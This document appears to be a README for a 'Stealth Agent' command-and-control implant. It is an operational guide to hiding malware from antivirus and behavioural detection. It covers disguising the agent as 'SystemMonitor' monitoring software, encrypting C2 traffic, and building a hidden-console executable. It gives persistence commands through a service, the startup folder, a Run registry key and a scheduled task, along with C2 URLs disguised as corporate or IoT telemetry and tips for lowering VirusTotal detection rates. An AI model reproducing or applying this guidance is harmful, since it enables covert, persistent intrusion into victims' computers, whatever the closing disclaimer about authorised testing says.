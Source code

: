 # 🔒 Stealth Agent - Advanced Evasion Guide

## 🛡️ Anti-Detection Features Implemented

### ✅ What We've Fixed:
1. **Removed Defender Exclusion Attempts** - No more obvious PowerShell commands
2. **Function Name Obfuscation** - Renamed malicious functions to legitimate names
3. **Encrypted Communications** - Replaced base64 with Fernet encryption
4. **Legitimate Cover Functionality** - Added real system monitoring features
5. **String Obfuscation** - Hidden API endpoints and suspicious strings
6. **Process Name Masking** - Now appears as "SystemMonitor"

### 🎯 Stealth Techniques Used:
- **Behavioral Mimicry**: Acts like legitimate system monitoring software
- **Encrypted C2**: All communications are encrypted, not just base64
- **Legitimate Thread Names**: HeartbeatService, TaskProcessor, MaintenanceService
- **Real System Functions**: Actually performs system health checks
- **Obfuscated Strings**: No hardcoded suspicious strings

## 🚀 Compilation Instructions

### Step 1: Install Dependencies
```bash
pip install -r requirements_stealth.txt
```

### Step 2: Build Stealth Executable
```bash
python build_stealth.py
```

### Step 3: Optional - Manual PyInstaller Build
```bash
pyinstaller --onefile --noconsole --name=SystemMonitor agent.py
```

## 🔧 Advanced Evasion Techniques

### 1. **Process Hollowing** (Advanced)
```python
# Replace direct execution with process hollowing
# Inject into legitimate processes like svchost.exe
```

### 2. **DLL Side-Loading** (Expert)
```python
# Load as a DLL instead of EXE
# Place in system directories with legitimate names
```

### 3. **Reflective Loading** (Expert)
```python
# Load directly into memory without touching disk
# Use tools like Donut or similar
```

### 4. **Living Off The Land** (Recommended)
```python
# Use only built-in Windows tools and libraries
# Avoid suspicious imports and external dependencies
```

## 🎭 Deployment Strategies

### Strategy 1: Service Installation
```batch
# Run as Windows service
sc create "SystemMonitorSvc" binPath= "C:\Windows\System32\SystemMonitor.exe"
sc start "SystemMonitorSvc"
```

### Strategy 2: Startup Folder
```batch
# Copy to startup folder
copy SystemMonitor.exe "%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\"
```

### Strategy 3: Registry Run Key
```batch
# Add to registry
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "SystemMonitor" /d "C:\Path\To\SystemMonitor.exe"
```

### Strategy 4: Scheduled Task
```batch
# Create scheduled task
schtasks /create /tn "SystemMonitor" /tr "C:\Path\To\SystemMonitor.exe" /sc onlogon
```

## 🛡️ Avoiding Behavioral Detection

### Memory Signatures
- **Issue**: Direct API calls can be hooked
- **Solution**: Use indirect calls and API hashing

### Network Signatures  
- **Issue**: Regular beacons are suspicious
- **Solution**: Variable intervals, legitimate protocols

### File System Signatures
- **Issue**: Dropped files can be analyzed
- **Solution**: Fileless execution, in-memory operations

## 🎯 Target-Specific Customization

### Corporate Environments
```python
# Mimic enterprise software
C2_URL = "https://monitoring.company.com/api"
agent_id = f"workstation_{computer_name}"
```

### Home Networks
```python
# Mimic IoT or smart home devices
C2_URL = "https://telemetry.smartdevice.com/data"
agent_id = f"device_{mac_address}"
```

## 🔍 Testing Against Detection

### 1. **Windows Defender**
```bash
# Test with Windows Defender enabled
# Check Windows Security event logs
```

### 2. **VirusTotal**
```bash
# Upload to VirusTotal (use a VPN)
# Check detection ratios
```

### 3. **Process Monitor**
```bash
# Use ProcMon to check file/registry access
# Ensure no suspicious patterns
```

### 4. **Wireshark**
```bash
# Monitor network traffic
# Verify encryption is working
```

## ⚠️ Legal and Ethical Considerations

**IMPORTANT**: This tool is for:
- ✅ Authorized penetration testing
- ✅ Red team exercises  
- ✅ Security research
- ✅ Educational purposes

**DO NOT USE FOR**:
- ❌ Unauthorized access
- ❌ Malicious activities
- ❌ Illegal purposes

## 🔧 Troubleshooting

### Agent Not Connecting
1. Check firewall settings
2. Verify C2 server is running
3. Test with curl/wget first

### High Detection Rate
1. Add more legitimate functionality
2. Increase obfuscation
3. Use different compilation methods
4. Consider packers like UPX or Themida

### Performance Issues
1. Reduce beacon frequency
2. Optimize module imports
3. Use threading for heavy operations

## 🎯 Next Level Evasion

For maximum stealth, consider:
1. **Custom Packers**: Use commercial packers like Themida, VMProtect
2. **Code Signing**: Sign with valid certificates
3. **Sandbox Evasion**: Add VM/sandbox detection
4. **Time Delays**: Add random delays and sleep timers
5. **Domain Fronting**: Use CDN services for C2 communication

---

*Remember: The best evasion is not being detected in the first place. Focus on legitimacy over complexity.*
